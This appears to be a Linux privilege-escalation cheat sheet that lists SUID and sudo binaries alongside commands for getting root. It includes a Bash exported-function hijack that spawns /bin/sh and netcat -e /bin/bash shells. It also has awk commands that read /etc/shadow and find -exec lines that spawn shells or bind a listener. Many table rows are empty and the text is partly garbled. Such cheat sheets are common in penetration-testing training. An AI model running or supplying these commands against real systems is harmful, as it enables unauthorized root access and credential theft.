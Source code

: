 Do any of the SUID binaries run commands that are vulnerable to Bash Function Manipulation?
`strings /usr/bin/binaryelf`  
`mail`
`function /usr/bin/mail() { /bin/sh; }`  
`export -f /usr/bin/mail`  
`/usr/bin/binaryelf`  

Can I write files into a folder containing a SUID bit file?  
Might be possible to take advantage of a '.' in the PATH or an The IFS (or Internal Field Separator) Exploit.  

If any of the following commands appear on the list of SUID or SUDO commands, they can be used for privledge escalation:

| SUID / SUDO Executables               | Priv Esc Command (will need to prefix with sudo if you are using sudo for priv esc. |
|---------------------------------------|-------------------------------------------------------------------------------------|
| (ALL : ALL ) ALL                      | You can run any command as root.<br>sudo su - <br>sudo /bin/bash                                 |
| nmap<br>(older versions 2.02 to 5.21) | nmap --interactive<br>!sh                                                           |
| netcat<br>nc<br>nc.traditional        | nc -nlvp 4444 &<br> nc -e /bin/bash 127.0.0.1 4444                                  |
| ncat                                  |                                                                                     |
| awk <br>gawk                          | awk '{ print }' /etc/shadow <br> awk 'BEGIN {system("id")}'                         |
| python                                | python -c 'import pty;pty.spawn("/bin/bash")'                                       |
| php                                   |      |
| find                                  | find /home -exec nc -lvp 4444 -e /bin/bash \\;<br> find /home -exec /bin/bash \\;  |
| xxd                                   |                                                                                     |
| vi                                    |                                                                                     |
| more                                  |                                                                                     |
| less                                  |                                                                                     |
| nano                                  |                                                                                     |
| cp                                    |                                                                                     |
| cat                                   |                                                                                     |
| bash                                  |                                                                                     |
| ash                                  |                                                                                     |
| sh                                  |                                                                                     |
| csh                                  |                                                                                     |
| curl                                  |                                                                                     |
| dash                                  |                                                                                     |
| pico                                  |                                                                                     |
| nano                                  |                                                                                     |
| vrim                                  |                                                                                     |
| tclsh                                  |                                                                                     |
| git                                  |                                                                                     |
| scp                                  |                                                                                     |
| expect                                  |                                                                                     |
| ftp                                  |                                                                                     |